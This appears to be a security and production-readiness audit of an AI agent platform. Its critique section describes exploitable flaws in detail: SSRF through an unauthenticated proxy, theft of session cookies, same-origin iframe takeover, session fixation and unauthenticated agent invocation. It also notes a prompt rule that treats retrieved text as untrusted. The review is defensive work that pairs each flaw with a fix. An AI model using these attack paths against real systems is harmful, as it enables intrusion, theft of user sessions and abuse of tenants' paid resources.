



# Agent Studio — Production Readiness Review & Plan

_2026-09-19. Scope: the working tree at commit 15b9cfa plus uncommitted changes._

## 1. Executive summary

**Verdict: not production-ready, and not safe to expose to customer data today.** The core is sound. SQL is parameterised everywhere. Runs are claimed with an atomic lease (`src/lib/orchestrator.ts:165-171`), approvals move through single-winner transitions (`src/lib/orchestrator.ts:390-395`), cron is claimed with `SKIP LOCKED` (`src/app/api/cron/route.ts:49-71`), and every run executes from an immutable spec snapshot. Around that core, the product has grown internet-facing surfaces with no authentication or tenant check. There is an app proxy that forwards the caller's session cookie to tenant-chosen URLs, `/assets` and `/api/v1` catch-alls that fall back to a random tenant's upstream, a public invoke endpoint that never verifies the key it reads, and a cron route that lets any workspace owner fire every tenant's scheduled agents. JWTs are signed with a hard-coded fallback secret, and that same string, hashed, is the AES key for every tenant credential (`src/lib/auth.ts:7`, `src/lib/crypto.ts:5`). Runs execute inside HTTP requests. Files sit on local disk. Rate limits and the Anthropic client cache live in process memory, and nothing reclaims a stranded lease, so the system cannot run as more than one replica and loses work on every deploy. Several features show fabricated data as if it were real: the playground trace, evals, connection health, OAuth and "Schedule publish". There are no tests, no CI, no lint config and no `middleware.ts`. Next 14.2.35 and nodemailer 6 carry known advisories, and 50 files are uncommitted on `master`. All of this can be fixed without a rewrite. The plan keeps the primitives that work and moves them into a worker architecture.

### Top 10 issues

| # | Severity | Area | Issue | Finding |
|---|---|---|---|---|
| 1 | Critical | Security & tenancy | The unauthenticated app proxy forwards every inbound header, including the session cookie, to a tenant-controlled upstream. It is an open SSRF relay. | [auth-3] |
| 2 | Critical | Storage & files | The `/assets/[...path]` and `/api/v1/[...path]` catch-alls are unauthenticated. They pick an upstream from a cookie, the Referer, or the most recently updated proxy app in *any* org, and they mark responses publicly cacheable. | [storage-6] |
| 3 | Critical | Security & tenancy | Proxied third-party HTML is served from the first-party origin and iframed without `sandbox`, so embedded apps have full same-origin API access. The proxy also relays upstream `Set-Cookie` headers. | [auth-4], [auth-5] |
| 4 | Critical | Frontend | The `postMessage` bridge in `AppCanvasViewer` accepts messages from any origin, starts authenticated agent runs, and broadcasts replies with `'*'`. | [frontend-1], [integrations-30] |
| 5 | Critical | Security & tenancy | `POST /api/v1/agents/[id]/invoke` starts real, paid runs with no authentication. It reads `Authorization` and `X-API-Key` but never checks them, looks up the agent without an org filter, and falls back to the unpublished draft. | [surface-3], [gap-public-api-contract-and-commercial-controls-3] |
| 6 | Critical | Runtime & scalability | The owner-session fallback on `/api/cron` (`src/app/api/cron/route.ts:36-42`) lets any workspace owner fire and observe every tenant's due agents. | [runtime-2] |
| 7 | Critical | Data & persistence | `db/schema.sql:43-45` backfills `memberships` from `users` on every run. The README says to re-run the file on every deploy, so each deploy silently re-grants revoked memberships. | [data-1] |
| 8 | High | Security & tenancy | `AUTH_SECRET` falls back to `"dev-secret-change-me"` for JWT signing and for the key that encrypts all tenant secrets. There is no boot-time validation. | [auth-1], [auth-8] |
| 9 | High | Security & tenancy | Spec gates are accepted verbatim from the client, so any member can set `send_email` to `auto`. Schedule run-now and swarm dispatch also run unreviewed drafts with no role check, validation or budget check. | [surface-10], [auth-14] |
| 10 | High | Runtime & scalability | Runs execute inside the HTTP request, and `maxDuration` is ignored under `next start`. Cron runs up to 20 agents sequentially in one request. Nothing reclaims stale leases, and the SDK defaults allow a single model call to take up to 30 minutes. | [runtime-3], [runtime-6], [ops-4], [integrations-4] |

Other issues that nearly made the list:
- SSRF through `fetch_url` and `http_request` [surface-4].
- No CI, tests or lint [ops-10].
- Vulnerable dependencies [ops-9].
- Local-disk storage with absolute paths [storage-7].
- Approvers cannot see email recipients [gap-approval-governance-and-notification-delivery-2].
- No account or workspace deletion path [gap-tenant-lifecycle-offboarding-2], [gap-tenant-lifecycle-offboarding-3].
- `src/lib/redis-client.ts:74` disables TLS verification.
- `scripts/seed-skills.mjs:131` rewrites published `agent_versions` rows in place.

### The plan in five lines

1. **Phase 0, fence and stop the bleeding (2 weeks):** commit everything under CI, delete or flag off every critical and fabricated surface, split keys with HKDF, enforce a runtime gate floor, and adopt versioned migrations. All 7 criticals close here.
2. **Phase 1, durable runtime (6–7 weeks):** move runs to a pg-boss worker behind a per-org `RunExecutor` flag. Add write-ahead tool steps, approvals that show and bind what will execute, a metered model gateway with a usage ledger and reservations, `safeFetch` egress, S3, a zod spec contract, and central RBAC. Ends at **Gate B (about week 9): 3–5 invite-only design partners** on AWS ECS/RDS.
3. **Phase 2, harden by measured risk (6 weeks):** a notification outbox, durable delegation, public API v1 with hashed keys and idempotency, email verification plus MFA for owners and approvers, KMS envelope encryption, and tenant lifecycle/DSAR. Ends at **Gate C (about week 15): public API for partners**.
4. **Phase 3, self-serve and GA (7-8 weeks):** RLS, plans and Stripe billing, governance v2 and spec evolution, correct rebuilds of the fenced features, data growth work, then the load, chaos, DR and pentest proof. Ends at **Gate D (about week 22): self-serve and GA**.
5. **Total: about 22 weeks with 3–4 engineers (about 30 with 2).** The stack stays boring: one Postgres, one image with two process types, S3, KMS and SES.

## 2. What the system is today

### Architecture as found

Agent Studio is a single Next.js 14.2 App Router application: React 18, TypeScript strict, about 32k lines, 51 route handlers, about 35 components and about 35 lib modules. It talks to one Postgres database through a per-process `pg.Pool` with `max: 10` and no other options (`src/lib/db.ts:9`). There is no ORM or repository layer. Every call site hand-writes parameterised SQL through `q()` and `one()`, with 218 call sites across routes, server pages and lib modules.

The same process does all of the following:
- serves the UI;
- authenticates requests (`src/lib/auth.ts`, JWT via jose);
- compiles plain-language briefs into an `AgentSpec` with a model call (`src/lib/ai.ts`);
- **executes agent runs to completion inside the request** (`src/lib/orchestrator.ts`);
- calls every outbound integration (`src/lib/tools.ts`, 19 tools);
- sends notifications inline (`src/lib/notify.ts`);
- writes uploads and artifacts to local disk under `STORAGE_DIR`;
- proxies third-party "Apps" (`src/app/api/apps/[id]/proxy/[[...path]]`).

A second process, `scripts/scheduler.mjs`, contains no logic of its own. Every 60 s (`scripts/scheduler.mjs:10`) it POSTs `/api/cron` with `x-cron-secret`.

Three things in this picture matter for scale. First, the web tier *is* the worker tier. Second, per-process memory holds the agent rate limiter (`src/lib/guardrails.ts:156`), the Anthropic client cache (`src/lib/ai.ts:35`) and the apps fallback store. Third, local disk holds every document. Each of these assumes exactly one long-lived process.

### Run lifecycle

A run is a row in `runs`:
- `status` is `running`, `awaiting_approval`, `completed` or `failed`;
- `state` is jsonb holding the full Anthropic message history, pending `partial` tool results and a step count;
- `locked_at` is the lease, and `spec` is a snapshot of the spec.

1. **Start.** `startRun()` applies the in-memory per-agent rate limit and DLP masking to the input, inserts the row with a spec snapshot (`src/lib/orchestrator.ts:119-125`), writes an audit event, and then **awaits `advance()` in the same call stack**. It is called synchronously from:
   - `/api/runs` (UI);
   - `/api/cron`, which claims up to 20 due agents with `FOR UPDATE SKIP LOCKED` and then runs them one after another;
   - `/api/agents/[id]/schedule` run-now and `/api/agents/[id]/swarm`, which both use the draft spec;
   - `/api/v1/agents/[id]/invoke`, which is public;
   - the `invoke_agent` tool, which blocks the parent's tool call on a child run, with depth ≤3.
2. **Claim.** `advance()` claims the run with a conditional `UPDATE … WHERE status='running' AND (locked_at IS NULL OR locked_at < now() - interval '5 minutes') RETURNING *` (`src/lib/orchestrator.ts:146,165-171`). If resolving the key or the connections fails, the run moves to `failed` (`src/lib/orchestrator.ts:179-200`).
3. **Loop.** Each iteration:
   - refreshes the lease;
   - re-checks the monthly spend cap (`src/lib/orchestrator.ts:226-232`);
   - checks `maxSteps + 4`;
   - makes a non-streaming `messages.create` call with `max_tokens: 4000`;
   - persists model text as a `run_steps` row;
   - executes `tool_use` blocks sequentially, clipping each result to 60k chars and turning a tool error into an `is_error` result (`src/lib/orchestrator.ts:328-351`);
   - rewrites the whole `state` JSON.
4. **Gate.** Approval-gated tools insert an `approvals` row whose `payload` is the raw model input (`src/lib/orchestrator.ts:311-313`). A tool missing from the spec defaults to `approval`, and rehearsal (`dry_run`) skips gated tools. At the end of the turn the run becomes `awaiting_approval`, `locked_at` is cleared, and approvers are notified by SMTP and Slack inline (`src/lib/orchestrator.ts:362-370`). These are separate autocommit statements, not one transaction.
5. **Decide and resume.** `POST /api/approvals/[id]` commits the decision guarded by `status='pending'` (`src/app/api/approvals/[id]/route.ts:40-45`). It then calls `resumeAfterApprovals()`, which atomically moves the run from `awaiting_approval` to `running`, executes the approved payloads, merges `state.partial` de-duplicated by `tool_use_id` (`src/lib/orchestrator.ts:412-416`), and re-enters `advance(..., heldLease=true)`. **All of this runs inside the approver's HTTP request.**
6. **Finish.** `finish()` prices usage with `src/lib/pricing.ts`, splitting cache read and write tokens, and stores the result in `runs.cost_usd` (`src/lib/orchestrator.ts:523-531`). It then notifies the starter or, for scheduled runs, the approvers (`src/lib/orchestrator.ts:479-501`).

`advance()` is the only code that reads `locked_at`. When a process dies mid-run, on deploy, OOM or `SIGTERM`, the run stays `running` until someone calls `advance()` on it again, and nothing ever does. The UI polls `GET /api/runs/[id]` every 2 s (`src/components/RunView.tsx:44`). `maxDuration = 300` is declared on the run routes (`src/app/api/runs/route.ts:9`, `src/app/api/cron/route.ts:11`, `src/app/api/approvals/[id]/route.ts:9`, `src/app/api/v1/agents/[id]/invoke/route.ts:9`). Only Vercel honours it. Under `next start`, runs have no request or wall-clock timeout.

### Tenancy model

| Aspect | As found |
|---|---|
| Unit of tenancy | `orgs` (workspaces). `memberships(user_id, org_id, role)` is authoritative. Roles are owner (`orgs.owner_id`), admin, builder and approver. |
| Session | HS256 JWT `{sub}` with a 7-day fixed expiry, in cookie `as_session` (httpOnly, `sameSite=lax`, `secure` only in production). No server-side session store and no revocation. |
| Active workspace | `users.active_org_id`, a per-user database column that falls back to the first membership. It is not per tab and not in the URL. |
| Authorization | `getUser()` re-derives org and role from the database on every request (`src/lib/auth.ts:71-107`). Derived flags: `canManageMembers`/`canPublish` = owner or admin; `canDecide` = owner or approver, with segregation of duties (`src/lib/approvals.ts:39-57`). There is no central policy module and no `middleware.ts`. |
| Isolation | Enforced by the application only. Routes append `and org_id = $n` by hand. No RLS, no per-tenant database roles. Child tables (`run_steps`, `agent_versions`, `connection_webhooks`) have no `org_id` and rely on the parent check. |
| Unauthenticated handlers | `/api/auth`, `/api/health`, `/api/webhooks/[id]`, `/api/apps/[id]/proxy/[[...path]]`, `/api/v1/[...path]`, plus `/api/v1/agents/[id]/invoke`, where auth is optional, and `/assets/[...path]`. |
| Cross-tenant paths | `agent_shares`, addressed by recipient email; the cron owner fallback [runtime-2]; the proxy catch-alls [storage-6]; public invoke [surface-3]. |
| Secrets | AES-256-GCM with a key taken from `sha256(AUTH_SECRET)` (`src/lib/crypto.ts:5`), the same secret that signs JWTs (`src/lib/auth.ts:7`). |
| Commercial control | `orgs.monthly_cap_usd`, set by the owner. No plans, entitlements, API keys, usage ledger or billing. |
| Lifecycle | Invitations only. No workspace deletion, account deletion, ownership transfer, leave, or data export. Legacy `users.org_id` and `users.role` are still written. |

### Deployment assumptions the code makes

The README states that the app "runs as one long-lived Node process, not serverless". The code depends on that in the following ways:

- **One replica.** The rate limiter, client cache and apps fallback live in process-local `Map`s. A second replica would get separate limits and a split-brain apps store.
- **Persistent local disk.** `documents.path` stores an absolute filesystem path. `STORAGE_DIR=/data/storage` (`Dockerfile:25`) is not declared as a `VOLUME`. Replicas cannot share files, and a moved volume breaks every existing row.
- **Long-lived requests.** Runs, cron batches and approval resumes run inside the request. Any proxy, load balancer idle timeout or deploy that cuts a connection leaves the run stranded.
- **No graceful shutdown.** The container runs `CMD ["npm", "run", "start"]` (`Dockerfile:43`), so npm is PID 1. No signal handling reaches in-flight runs [ops-4].
- **Schema applied by hand.** `scripts/setup-db.mjs` runs the whole of `db/schema.sql` as one multi-statement query, and the README says to repeat it on every deploy. There is no migrations table. `src/lib/apps.ts` and `src/lib/evals.ts` also run `CREATE TABLE IF NOT EXISTS` at request time.
- **Config is trusted, not validated.** `process.env` is read ad hoc in 13 files, and insecure defaults apply silently when variables are missing.
- **Observability is the database.** Run outcomes live in `runs`, `run_steps`, `audit_events` and `notifications`. Otherwise there are 115 unstructured `console.*` calls, with no request IDs, metrics, tracing or error tracker. The health check runs only `select 1`.
- **An external heartbeat.** Scheduling depends on a 60 s POST loop, or any platform cron, reaching `/api/cron` with `CRON_SECRET`.

## 3. What is done well

These are strengths to keep through the migration. Most of the plan moves these primitives into new places rather than replacing them.

### Run execution and concurrency primitives

- **Atomic lease claim.** The claim is a single conditional `UPDATE … RETURNING` (`src/lib/orchestrator.ts:165-171`), and the lease is refreshed on each iteration (`src/lib/orchestrator.ts:224`). Two callers cannot step the same run. This compare-and-set becomes the worker's claim unchanged.
- **Single-winner resume.** `awaiting_approval → running` is an atomic CAS (`src/lib/orchestrator.ts:390-395`), so approved actions execute once even when several gates are decided at the same moment.
- **Exactly-once cron claim.** `FOR UPDATE OF a SKIP LOCKED` plus writing `next_run_at`/`last_run_at` before commit (`src/app/api/cron/route.ts:49-71`) survives racing tickers. Computing the next firing from `now()` avoids catch-up storms after downtime.
- **No stranded setup failures.** A missing key or a database error during setup moves the run to `failed` instead of leaving it `running` (`src/lib/orchestrator.ts:179-200`, `402-411`). Spec-shape errors are the exception [gap-agentspec-schema-evolution-2].
- **Mixed tool batches resume correctly.** Partial results carried across a gate in `state.partial` are de-duplicated by `tool_use_id` on resume (`src/lib/orchestrator.ts:412-416`).
- **Tool failures are contained.** Every tool error becomes an `error` step and an `is_error` tool_result, unknown tool names return errors, and output is clipped to 60k chars (`src/lib/orchestrator.ts:328-351`).
- **Honest rehearsal.** Dry runs skip consequential tools and tell the model plainly that the action was simulated (`src/lib/orchestrator.ts:288-308`).
- **Thin, replaceable scheduler.** `scripts/scheduler.mjs` has no database access, fails fast without `CRON_SECRET` and handles `SIGINT`/`SIGTERM`. `src/lib/schedule.ts:230-271` walks the calendar for DST and month lengths and reports unhonoured qualifiers as caveats.

### Spec model, versioning and governance

- **Spec-first, reproducible prompts.** The system prompt is a deterministic function of the spec (`src/lib/ai.ts:190-239`), and per-run values go in the first user message (`src/lib/run-input.ts:11`). This is what makes versioning meaningful.
- **Execute from snapshot.** `runs.spec` is captured at start (`src/lib/orchestrator.ts:119-125`) and used on resume, so republishing never changes an in-flight run.
- **Versioned publishes.** `agent_versions` has a unique `(agent_id, version)`, and runs are stamped with their version (`db/schema.sql:136-145`, `src/app/api/agents/[id]/publish/route.ts:46-50`). This is the foundation for rollback and provenance.
- **A real publish invariant.** `validate()` requires that the tool exists, that non-low-risk tools are approval-gated, and that required connections are present (`src/app/api/agents/[id]/publish/route.ts:17-22`).
- **Compile does not trust the model.** `compileBrief` filters its output against the tool registry and the tenant's real connections, and forces approval for medium- and high-risk tools (`src/lib/ai.ts:138-145`). The same normaliser only needs to be applied at every other write path.
- **Security-aware diff.** `src/lib/spec-diff.ts` is pure and dependency-free, and uses an LCS over steps. It classifies gate drops, newly granted tools and unattended triggers as "weakens" and sorts them first (`src/lib/spec-diff.ts:36-73,103-133`).
- **Progressive disclosure of skills.** Only a name and one-liner go into the prompt, and the body is fetched through the implicit `load_skill` tool, which a spec cannot grant itself (`src/lib/ai.ts:177`, `src/lib/tools.ts:918-961`).
- **Approvals bind execution to the stored payload.** `approvals.payload = use.input` is what runs (`src/lib/orchestrator.ts:311-313`, `437`), so the model cannot change arguments after the request.
- **Segregation of duties is explicit.** Only an owner or approver can decide, and the starter is refused while another approver exists. Sole-approver decisions are stamped `self_approved` and audited, and refused decisions are audited too (`src/lib/approvals.ts:39-57`, `src/app/api/approvals/[id]/route.ts:31-53`).
- **The decision is durable and independent of the resume.** The double-decide guard is `where status='pending' returning *` (`src/app/api/approvals/[id]/route.ts:40-45`). A resume failure is audited without discarding the decision (`src/app/api/approvals/[id]/route.ts:54-63`).
- **Reversible retire.** Retire keeps every version, run and approval, and restore is gated like publish (`src/app/api/agents/[id]/retire/route.ts:9-19,53-58`).

### Data, security and tenancy

- **Parameterised SQL throughout.** The only interpolations are compile-time constants, such as `LEASE` (`src/lib/orchestrator.ts:146,168`) and fixed where-clauses (`src/app/api/approvals/route.ts:13-18`).
- **Authorization is re-derived on every request.** The JWT carries only `sub` (`src/lib/auth.ts:71-107`), so removing a member or changing a role takes effect immediately.
- **Consistent tenant-scoping idiom** on authenticated `[id]` routes: `where id = $1 and org_id = $2` (for example `src/app/api/agents/[id]/route.ts:14,42,81`, `src/app/api/connections/[id]/route.ts:12,21`, `src/app/api/runs/[id]/route.ts:12`, `src/app/api/documents/[id]/route.ts:11`).
- **Server-side governance gates** with explicit 403s: publish (`src/app/api/agents/[id]/publish/route.ts:31`), owner-only role changes (`src/app/api/members/[id]/route.ts:13`), owner-only spend cap (`src/app/api/spend/route.ts:18`). Deleting an agent requires password re-confirmation, and a failed confirmation is audited (`src/app/api/agents/[id]/route.ts:60-75`).
- **Sound invitation design.** 192-bit random tokens, 14-day expiry, binding to the invited email, a partial unique index on pending invites (`db/schema.sql:73`), and tokens are never listed back.
- **Business rules in the database.** Partial unique indexes enforce one Anthropic connection per org, one pending invite per address, one pending share per recipient and unique skill names (`db/schema.sql:73-74, 108-109, 250-251, 330`).
- **Secrets encrypted at rest.** AES-256-GCM with a random 12-byte IV and an auth tag (`src/lib/crypto.ts:9-15`). `secret_enc` is never selected in list endpoints (`src/app/api/connections/route.ts:11-13`). The algorithm is right; the key derivation needs to change.
- **Cross-tenant sharing strips workspace-scoped ids** (sources and skills), and only the recipient may accept (`src/app/api/shares/[id]/route.ts:24,44-53`).
- **No code execution anywhere.** There is no `eval`, `new Function`, `vm`, `child_process` or `dangerouslySetInnerHTML` in `src/`. The sandbox and framework parsers are regex- or LLM-driven.
- **Defence in depth for SQL.** `sql_query` combines a statement-shape regex, a single-statement check, `set default_transaction_read_only = on`, an injected `LIMIT` and a 500-row slice (`src/lib/tools.ts:217-225`).
- **Traversal-safe filenames.** `path.basename` plus character replacement and a timestamp prefix are applied to uploads and artifacts alike (`src/app/api/documents/route.ts:27-28`, `src/lib/tools.ts:374-377`). Downloads use `Content-Disposition: attachment` (`src/app/api/documents/[id]/route.ts:17`).
- **Audit survives its subject.** `audit_events` has no FK and is written after deletes (`src/app/api/agents/[id]/route.ts:81-83`). `agent_shares` snapshots the spec and uses `ON DELETE SET NULL` (`db/schema.sql:229-247`).
- **Most org tables already cascade from `orgs`,** and files are partitioned by org on disk (`src/app/api/documents/route.ts:25`, `src/lib/tools.ts:375`). A tenant purge can build on both.

### Cost and commercial controls

- **Cost frozen at finish.** Cache read and write tokens are priced separately, unknown models fall back to a non-zero rate, and `cost_usd` is `numeric(12,6)` (`src/lib/pricing.ts:17-27,49-58`, `src/lib/orchestrator.ts:523-531`, `db/schema.sql:166-173`).
- **The cap is re-checked every iteration,** not only at start (`src/lib/orchestrator.ts:226-232`).
- **Timezone-correct billing periods.** `date_trunc('month', now() at time zone tz) at time zone tz` (`src/lib/spend.ts:17-18`).
- **Correct HTTP semantics exist to copy.** The internal run route validates inputs and returns 402 on budget refusal (`src/app/api/runs/route.ts:46-59`). The public route uses 429 with `Retry-After` and 409 for retired agents (`src/app/api/v1/agents/[id]/invoke/route.ts:175-189`).

### Integrations and notifications

- **Most outbound calls are bounded.** 25 of the 29 server-side `fetch` calls carry `AbortSignal.timeout` (for example `src/lib/tools.ts:169,288`, `src/lib/aws-s3.ts:160`, `src/lib/notify.ts:113`). Customer `pg.Client`s set `connectionTimeoutMillis` and close in `finally` (`src/lib/tools.ts:225-227, 445-447`). The Redis tool bounds each operation at 6 s (`src/lib/redis-client.ts:77-83`).
- **The notification contract already fits an outbox.** Notifications never fail the caller, every attempt is logged, including skips (`src/lib/notify.ts:4-15, 54-71`), and email is sent as plain text only (`src/lib/notify.ts:93`). Approval notices carry agent and tool names, never arguments or deliverables (`src/lib/orchestrator.ts:362-370`).
- **The prompt treats retrieved text as untrusted** and forbids working around approvals (`src/lib/ai.ts:231-233`).

### Engineering baseline and frontend

- **A real type baseline.** `tsconfig.json` sets `strict: true`, and `npx tsc --noEmit` passes on the full 32k-line tree.
- **Right seam for a schema.** `src/lib/types.ts` is one small, well-commented contract, and a zod schema can attach to it directly.
- **Doc comments explain decisions** (`src/lib/skills.ts`, `src/lib/spec-diff.ts`, `src/lib/format.ts`). `src/lib/skills.ts:58-61` filters UUIDs, scopes by org and degrades rather than failing on deleted ids.
- **Consistent error shape.** Route handlers return `{ error }` with meaningful 4xx codes. The convention exists, even though nothing centralises it.
- **Reasonable container.** The multi-stage Dockerfile runs as a non-root user and has a `HEALTHCHECK` (`Dockerfile:19-43`). `.dockerignore` excludes `.env`, `storage` and `.git`. `/api/health` probes the database and returns 503 on failure.
- **Hydration-safe date formatting.** `src/lib/format.ts` pins the locale and workspace timezone.
- **Accessibility done right in places.** `src/components/AgentList.tsx:135-169` has dialogs with `role="dialog"`, `aria-modal`, Escape handling and labelled icon buttons. `src/components/Pagination.tsx` has complete ARIA. `src/app/globals.css:7-61` provides tokens, `:focus-visible`, `prefers-reduced-motion` and a documented semantic colour reservation.
- **The UI cannot un-gate risky tools.** Builder's review step mirrors server validation, and medium- and high-risk tools cannot be set to auto (`src/components/Builder.tsx:1346-1362`).
- **The correct mutation pattern exists.** `src/app/(app)/approvals/page.tsx:78-110` checks `res.ok`, surfaces errors and clears busy state in `finally`. A shared API client can generalise it.
- **Heavy parsers stay off the client bundle.** They are server-only via `serverComponentsExternalPackages` (`next.config.mjs`), and `jszip` is lazy-loaded.
- **An honest README.** The "Deploying" section (README.md:98-124) states the single-process constraints and the `AUTH_SECRET` rotation hazard.

## 4. Critique

Findings are grouped by area. Ids in square brackets map to Appendix A; severity is the verified severity.

### 4.1 Security & tenancy

The authenticated core is fine for a prototype: most route handlers call `requireUser()` and filter by `u.orgId`. Three newer surfaces bypass that model completely: the embedded-app proxy, the public `/api/v1` invoke API, and the `/assets` catch-all (covered in 4.2). Together they give unauthenticated callers cross-tenant access, SSRF, and session theft. The governance model the product sells (approval gates, publish review, role separation, spend caps) is enforced on one path, `POST /api/runs` plus publish, and skipped on at least five others. Identity basics are missing too: email verification, rate limiting, session revocation, a separate encryption key, and account or tenant deletion. The findings group into six themes, and fixes within a theme should ship together.

#### Embedded apps: session theft and same-origin takeover

- **App proxy is unauthenticated, forwards session cookies, and acts as an open SSRF proxy** [auth-3] (critical; also surface-1, integrations-24, storage-1, storage-2), `src/app/api/apps/[id]/proxy/[[...path]]/route.ts:12`. The handler calls `getAppById(id)` with no session check and no org check (`src/lib/apps.ts:168-190`, which also falls back to an in-memory map covering all orgs). It then forwards every request header except host, connection, content-length and transfer-encoding to `app.url` (`route.ts:43-54`). Any member can set that URL to any host, including `http://` and internal IPs (`src/app/api/apps/route.ts:28`). So every viewer's HttpOnly `as_session` JWT goes to a tenant-controlled server, and anyone who has an app id can use Agent Studio as a proxy to IMDS or internal admin panels. App ids are UUIDs, but they appear in URLs, Referer headers and the `agent_studio_proxy_app_id` cookie.
  *Fix:* require a session and use `getApp(u.orgId, id)`. Strip `cookie`, `authorization` and hop-by-hop headers. Enforce egress rules that deny private CIDRs with DNS-pinned resolution (`ssrf-req-filter` or a dedicated egress proxy). Serve embeds from an isolated origin such as `*.apps.<domain>`.
- **Proxied third-party HTML runs same-origin with no iframe sandbox** [auth-4] (critical; also surface-2, storage-3, frontend-2), `src/components/AppCanvasViewer.tsx:120`. Proxy mode is the default (`AppCanvasViewer.tsx:88`) and gets `sandbox={undefined}`. The proxy returns the upstream HTML as `text/html` from the first-party origin with no CSP (proxy `route.ts:188-195`). Upstream script can therefore call `/api/agents`, `/api/connections`, approvals and invitations as the viewer, workspace owners included. The "sandboxed" fallback sets `allow-scripts allow-same-origin` together, which cancels the sandbox. The postMessage bridge accepts `TRIGGER_AGENT` from any frame (`AppCanvasViewer.tsx:181-200`). One builder can take over the owner's session.
  *Fix:* never serve third-party HTML from the app origin. Use an isolated origin with `sandbox="allow-scripts allow-forms"` and no `allow-same-origin`, a strict CSP including `frame-src`, and `event.origin` validation in the bridge.
- **Proxy relays upstream Set-Cookie onto the Agent Studio origin with Secure stripped** [auth-5] (high; also storage-4), `src/app/api/apps/[id]/proxy/[[...path]]/route.ts:245`. `transferCookies` (`route.ts:231-264`) strips `Domain` and `Secure` and does not filter cookies by name. An upstream can overwrite `as_session` with the attacker's own token (session fixation or login-CSRF into the attacker's workspace, which then captures the victim's uploads and credentials). `Secure` is stripped in production as well. `agent_studio_proxy_app_id` is not HttpOnly, yet `/api/v1/[...path]` trusts it.
  *Fix:* do not relay upstream cookies onto the first-party origin. If passthrough is required, namespace them as `app_<id>_<name>` on the embed origin. Rename the session cookie to `__Host-as_session`.

#### Public API: unauthenticated execution

| Entry point | Auth | Spec it runs | Retired check | `budgetCheck` |
|---|---|---|---|---|
| `POST /api/runs` | member | published, or draft (`useDraft`, or unpublished) `runs/route.ts:34` | yes | yes |
| `POST /api/v1/agents/[id]/invoke` | **none** | published, else draft `invoke/route.ts:158` | yes | no |
| `GET /api/v1/agents/[id]/invoke` | **none** | returns name and purpose | n/a | n/a |
| Schedule run-now | any member | always draft `schedule/route.ts:64` | no | no |
| Swarm dispatch | any member | always draft `swarm/route.ts:69` | no | no |
| `invoke_agent` tool | inherited | draft unless target is published `tools.ts:860` | no | not audited |
| Approval resume | approver | parked run | no | n/a |

- **Public invoke starts real runs with no authentication** [surface-3] (critical; also runtime-1, data-2, auth-2, ai-1), `src/app/api/v1/agents/[id]/invoke/route.ts:152`. The handler reads `Authorization` and `X-API-Key` only to pick a caller label (`route.ts:150-155`). It then calls `startRun` against the victim's `agent.org_id` and returns the output and tool results (`route.ts:251-272`), with `Access-Control-Allow-Origin: *` (`route.ts:13`). Anyone holding an agent UUID can spend the tenant's Anthropic key and trigger auto-gated tools (`sql_query`, `fetch_url`, `invoke_agent`) from any website. The only limit is an in-process 60 RPM per agent per node (`route.ts:174`), and that value is read from the spec.
  *Fix:* add a shared `requireApiKey()` backed by hashed keys (see below). Require `status='published'`. Drop wildcard CORS. Use a Redis token bucket per key and per org, and record the key id as `started_by`.
- **No API-key store or lifecycle, and every generated snippet calls without a credential** [gap-public-api-contract-and-commercial-controls-1] (high), `src/components/ExportAgentModal.tsx:124`. There is no `api_keys` table and no issuance, hashing, scoping, rotation or revocation code. The curl, Python and Node snippets (`ExportAgentModal.tsx:124-157`) send only `Content-Type`. Integrators are building against a keyless contract, so adding auth later breaks every integration, and a leaked credential cannot be revoked because none exists.
  *Fix:* add an `api_keys` table (org_id, optional agent_id, prefix such as `as_live_xxxxxxxx`, `key_hash` as HMAC-SHA256 with a pepper, `scopes text[]`, `expires_at`, `revoked_at`, `last_used_at`). Show the key once, compare with `crypto.timingSafeEqual`, audit create, rotate and revoke, allow two live keys for rotation, and register the prefix with GitHub secret scanning. Ship this before external users integrate.
